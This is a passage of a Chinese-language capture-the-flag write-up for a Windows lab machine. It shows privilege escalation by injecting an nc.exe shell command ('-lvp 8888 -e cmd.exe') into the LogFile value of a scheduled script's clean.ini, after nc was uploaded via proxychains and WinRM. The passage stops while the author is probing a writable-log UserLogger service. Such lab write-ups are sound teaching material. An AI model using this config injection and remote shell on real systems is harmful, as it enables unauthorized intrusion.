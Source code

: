 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSR8UbibftsAtIoicFzPNibOd9sQVrrrYsibNPK6Dpze7vibibKubtKNNIwJwQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSm8Iib1WoWZI7NiciaHbQ0icajKtEcr6a9ZswjU0iahF2f8edt42qWZ1yNOQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSw77yGJ3AOhCsTJMbhdzV4WZtS1SZXN21CGzlxhj9T8oibQnP2RQcibnA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSmxxRicd63RevPvHib5MgxmPEicVLDgaxlIiatztUXRAGQiaoakia8dskqHPQ/640?wx_fmt=png)

可以看到 clean.ini 定义了三个变量，这里有隐藏文件 dellog.bat，它会随着 batch.log 开始和停止时间进行更新运行 dellog.ps1，然后循环遍历所有 bat 文件并运行...

这里只需要将 nc 执行反向 shell 的命令写入 clean.ini 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSpQicicAuqR7ibCiaVGZzIQIgeMibKWYIe5YtlTaasdQElFReW1ibLNxk53eQ/640?wx_fmt=png)

这里我将 proxychains winrm_shell.rb 改成了 proxychains3 upload，遇到了几个问题.. 实在无法解决，通过 ippsec 解决了问题，感谢大佬！

成功上传 NC...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSqiaYcJff6DG9Fib73SA7bsNqicwKypAW37ZUURtQiaVF1Lr9AkUPax1qFA/640?wx_fmt=png)

```
echo [Main] > C:\util\scripts\clean.ini
echo LifeTime=100 >> C:\util\scripts\clean.ini
echo "LogFile=c:\util\scripts\log.txt & cmd.exe /c C:\windows\system32\spool\drivers\color\nc.exe -lvp 8888 -e cmd.exe" >> C:\util\scripts\clean.ini
echo "Directory=c:\inetpub\logs\logfiles" >> C:\util\scripts\clean.ini
```

等待几分钟... 成功获得了反向外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicS5KyFMughaBAvH8FHmcbdjlfFKv0iaxTfiaFHuaSh76es8IvbuGRcOLFQ/640?wx_fmt=png)

方然还可以这么提权... 但是获得的 shell 会快很多，但是无法进入 hacker... 还是得回到前面的方法...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSLBuJcSlpgHzPRppDib5Fdibvt4MSjRanzQX3b5MicwzbkYtfsxuEib9vsA/640?wx_fmt=png)

成功获得了 user 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSDiaph2KgVcBInSap3M1QWB4kQrlwsS1LAribwqWTKrwVgu0B4AwCfMMw/640?wx_fmt=png)

在查看系统时，发现一个无法识别的服务正在运行着...UserLogger.exe

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSdJwOWwBpibIgsG0ibicGDdTtMaU5uib9TrEj7mlHaiaa45uWYAmTR7w7uNQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSibdT1pZiaua1ydAyFFU3KxKcy7OfNWvnsq3ib1z5XF9VKbsYFl7aEczzg/640?wx_fmt=png)

Description 表示它负责记录用户活动，我尝试用以下方式启动该服务，可以看到它被允许启动和停止服务...

开始进行测试，创建了一个测试文件 test.txt 然后重新启动了服务，通过附加. log 到我给的路径并保存在那里，读取创建了日志...

**F：** 可以看到日志文件的权限是完全打开的，并且可以更改内容...

  

  
